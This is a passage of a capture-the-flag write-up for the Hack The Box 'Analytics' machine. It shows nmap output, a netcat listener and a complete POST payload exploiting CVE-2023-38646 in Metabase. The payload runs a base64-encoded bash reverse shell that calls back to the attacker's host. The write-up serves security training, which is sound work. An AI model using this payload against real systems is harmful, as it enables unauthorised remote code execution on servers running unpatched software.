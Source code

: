 <br>
Now that I'm able to access the website, we're going to do a default script scan. 
However, it didn't give us anything useful.

{% vimhl bash %}
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sC -oA HTB/Analytics/nmap/default_script_scan 10.10.11.233
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-14 02:11 EDT
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Analytical
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endvimhl %}

<br>
Going through the website, there's a Login page that takes us to the URL data.analytical.htb which we will also add to /etc/hosts file.

{% vimhl bash %}
10.10.11.233    analytical.htb data.analytical.htb
{% endvimhl %}

<br>

### Exploit

Viewing the source code of the login page, we see it is embedded in JSON object and using Metabase v0.46.6, and a bit of research shows us it has a vulnerability CVE-2023-38646 which is Pre-Auth RCE.
First, we'll listen to the port using `nc`.
{% vimhl bash %}
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9998
{% endvimhl %}

<br>
By creating this POST request, we are able to get a reverse shell.

{% vimhl bash %}
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json,
Connection: close
Content-Type: application/json
Content-Length: 522
{"details": {"details": {"advanced-options": true, "classname": "org.h2.Driver", "subname": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjE2Lzk5OTggMD4mMQ==}|{base64,-d}|{bash,-i}')\n$$--=x", "subprotocol": "h2"}, "engine": "postgres", "name": "x"}, "token":   "249fa03d-fd94-4d5b-b94f-b4ebf3df681f"}
{% endvimhl %}
